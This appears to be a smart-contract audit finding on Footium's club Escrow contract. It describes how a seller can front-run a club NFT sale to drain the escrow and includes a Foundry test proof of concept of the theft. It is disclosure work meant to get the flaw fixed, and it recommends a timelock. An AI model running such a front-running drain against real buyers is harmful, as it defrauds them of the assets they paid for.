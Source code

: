 sashik_eth

medium

# Buyer of the club could be front-runned by the club seller during trade

## Summary
Buyer of the club could be front-runned during trading on the secondary market by the current club seller,  who drains the escrow balance before the club's NFT is traded.

## Vulnerability Detail

Each club NFT has an `Escrow` contract associated with it, that is responsible for holding and transferring clubs'  inventory of NFT's (e.g., players) and tokens (e.g., Footium Token). This contract allows the current club owner to transfer any ERC20 and ERC721 tokens from escrow (=club balance).
As Clubs NFTs follow the ERC721 standard, they can be freely traded on secondary markets. However, this creates an attack vector where the seller of the club can front-run trading transactions by using their own transactions to drain the escrow balance.

## Impact

Club buyers are at risk of being defrauded by paying a high price for a club that turns out to be empty due to the possibility of the seller draining the escrow balance.

## Code Snippet

Functions that allow the current owner (seller) to transfer assets from `Escrow` balance:
https://github.com/sherlock-audit/2023-04-footium/blob/main/footium-eth-shareable/contracts/FootiumEscrow.sol#L105-L126
```solidity
    /**
     * @notice Transfers ERC20 tokens to `to` address.
     * @param erc20Contract ERC20 contract address.
     * @param to Token receiver address.
     * @param amount Token amount to transfer.
     * @dev only the club owner address allowed.
     */
    function transferERC20(
        IERC20 erc20Contract,
        address to,
        uint256 amount
    ) external onlyClubOwner {
        erc20Contract.transfer(to, amount);
    }

    /**
     * @notice Transfers ERC721 tokens to `to` address.
     * @param erc721Contract ERC721 contract address.
     * @param to Token receiver address.
     * @param tokenId Token ID to be transferred.
     * @dev only the club owner address allowed.
     */
    function transferERC721(
        IERC721 erc721Contract,
        address to,
        uint256 tokenId
    ) external onlyClubOwner {
        erc721Contract.safeTransferFrom(address(this), to, tokenId);
    }
```

## PoC
Next Foundry test added in file `test/foundry/Footium.t.sol` could show a possible attack scenario:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../contracts/FootiumClub.sol";
import "../../contracts/FootiumPlayer.sol";
import {IERC721} from "@openzeppelin/contracts/token/ERC721/IERC721.sol";

contract CounterTest is Test {
    FootiumClub public club;
    FootiumPlayer public player;
    address buyer;
    address maliciousSeller;
    address secondaryMarket;

    function setUp() public {
        club = new FootiumClub();
        club.initialize("URL");
        player = new FootiumPlayer();
        player.initialize(address(123), 1, "URL");

        club.grantRole(club.MINTER_ROLE(), address(this));
        player.grantRole(club.MINTER_ROLE(), address(this));

        maliciousSeller = makeAddr("maliciousSeller");
        buyer = makeAddr("buyer");
        secondaryMarket = makeAddr("secondaryMarket");
    }

    function testStealingBeforeTrade() public {
        // Minting club NFT for malicious seller and player NFT that would hold on clubs' escrow contract
        uint256 clubId = 1;
        club.safeMint(maliciousSeller, clubId);
        uint256 playerId;
        playerId = player.safeMint(address(club.clubToEscrow(clubId)));
        // Seller approve club NFT for secondary market to be traded
        vm.startPrank(maliciousSeller);
        club.approve(secondaryMarket, clubId);
        // Seller steals player NFT by front-running trading tx
        FootiumEscrow(club.clubToEscrow(clubId)).transferERC721(IERC721(address(player)), maliciousSeller, playerId);
        vm.stopPrank();
        // Trading tx
        vm.prank(secondaryMarket);
        club.transferFrom(maliciousSeller, buyer, clubId);
        // Checking that seller owns player NFT after trade of club was executed
        assertEq(player.ownerOf(playerId), maliciousSeller);
    }
}
```
Check this link for instructions on how to add Foundry tests in the Hardhat project:
https://book.getfoundry.sh/config/hardhat#4-steps-to-add-foundry-test

## Tool used

Manual Review

## Recommendation

One possible solution to mitigate the risk of fraud for Club NFT buyers is to either remove the transfer possibility from the Club NFT contract altogether or to add a pausing functionality with timelock to the Escrow contract.
By adding a timelock to the Escrow contract, the transfer functionality could be temporarily disabled for a specific period, allowing buyers to verify that the club's inventory is intact.
